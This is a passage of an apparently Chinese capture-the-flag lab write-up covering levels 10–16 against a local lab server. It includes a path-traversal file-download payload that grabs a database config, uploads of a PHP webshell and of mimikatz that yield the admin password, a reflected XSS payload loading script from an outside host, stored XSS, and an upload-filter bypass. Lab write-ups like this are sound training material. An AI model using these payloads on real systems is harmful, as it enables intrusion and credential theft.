 ```
![image](https://ws4.sinaimg.cn/large/0078beR7ly1fz4a49clxcj314o0jm11q.jpg)
通过下载download.php这个文件证明存在任意文件下载漏洞,那么该去找存放管理员账号密码的文件
我直接使用御剑扫描其后台,发现在http://192.168.239.131/pentest/test/6/1/db/文件下存在config.php文件
![image](https://wx4.sinaimg.cn/large/0078beR7ly1fz4a6su1i6j30ld07qwel.jpg)

那么构造的payload为:
```
http://192.168.239.131/pentest/test/6/1/download.php?fname=../../../pentest/test/6/1/db/config.php
```
![image](https://ws1.sinaimg.cn/large/0078beR7ly1fz4a7b93lfj30ii0bxmxm.jpg)

## 第11关:POST类型任意下载漏洞
第10关是通过GET请求下载文件,第11关是通过POST请求下载文件,直接修改变量pic的值为config.php文件的路径即可
![image](https://ws1.sinaimg.cn/large/0078beR7ly1fz4a8l5gvaj30yc0kpwn9.jpg)
## 第12关:D盘找密码
上传个PHP木马,确定其上传路径
![image](https://wx3.sinaimg.cn/large/0078beR7ly1fz4a91khr1j312e0aqq34.jpg)
直接传一句话木马，上传上去后，然后在菜刀中上传mimikatz
![image](https://wx3.sinaimg.cn/large/0078beR7ly1fz4aagdhbsj309501e0h3.jpg)
得到系统管理员登录密码为123456~
![image](https://ws1.sinaimg.cn/large/0078beR7ly1fz4aakp6f3j30gc078dfu.jpg)

## 第13关:反射型XSS
构造payload:
```
http://192.168.239.131/pentest/test/9/?id=<script src=http://c7.gg/bSTkf></script>
```
![image](https://ws2.sinaimg.cn/large/0078beR7ly1fz4ab6can0j315x09v3zc.jpg)
## 第14关:存储型XSS
构造payload:```
<script>alert(/xss/)</script>
```
![image](https://wx1.sinaimg.cn/large/0078beR7ly1fz4ac4vqdej30g907zgmf.jpg)
## 第15题:上传漏洞
制作一个图片马,上传,burp修改文件名为php即可成功上传
![image](https://ws1.sinaimg.cn/large/0078beR7ly1fz4acrxrf5j30xh0id0vu.jpg)
成功解析
![image](https://ws4.sinaimg.cn/large/0078beR7ly1fz4ad73mnbj31gz0h8q9h.jpg)
菜刀连接
![image](https://wx4.sinaimg.cn/large/0078beR7ly1fz4adj84dfj30wz0c50ud.jpg)
## 第16题:明天双十一 我从公司网络去剁手了！
折腾了一会没找到答案,查看源码


```
if(strstr($url,"www.taobao.com")){
		if($_SERVER['HTTP_HOST']=="10.10.10.10"){
		if(strstr($_SERVER['HTTP_REFERER'],"www.baidu.com")){
		if(strstr($_SERVER['HTTP_REFERER'],"www.baidu.com")){
		echo "剁手了，请记录截图!!!flag:83242lkjKJ(*&*^*&k0"."<br/>";
	}else{
		echo "不想剁手了"."<br/>";
	}
	}else{
		echo "nono"."<br/>";
	}
	}else{
		echo "哎呀，这里只允许10.10.10.10访问！！！"."<br/>";
	}
	}else{
```